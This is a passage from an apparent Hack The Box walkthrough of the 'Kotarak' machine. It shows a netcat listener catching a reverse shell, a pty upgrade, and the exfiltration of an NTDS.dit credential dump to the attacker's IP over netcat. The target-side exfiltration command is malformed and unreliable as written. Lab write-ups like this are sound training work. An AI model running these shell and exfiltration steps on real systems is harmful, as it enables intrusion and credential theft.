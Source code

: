 and catch the reverse-shell!


```

root@kali:~/HTB/retired/kotarak# nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.55] 49382
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
whoami
tomcat
python -c 'import pty;pty.spawn("/bin/bash")'
tomcat@kotarak-dmz:/$ ls
ls
backups  dev   lib    libx32      mnt   root  snap  tmp  vmlinuz
bin      etc   lib32  lost+found  opt   run   srv   usr  vmlinuz.old
boot     home  lib64  media       proc  sbin  sys   var
tomcat@kotarak-dmz:/$ ls /home
ls /home
atanas  tomcat

```



The user.txt flag is in atanas' home directory, and we can't read it yet!


<hr width="250" size="6">


<h3>Privilege Escalation</h3>

Looking around `tomcat`'s home directory we find something interesting.

```

tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ ls
20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin

```

This looks like data collected on a penetration test, using `Impacket's psexec`...I download it to my Kali VM.


On Kali I do:

```
nc -nlvp 999 > 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
listening on [any] 999 ...
```


On the target I do:

```
nc -nv 10.10.14.14 999 nc -nlvp 999 < 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
```
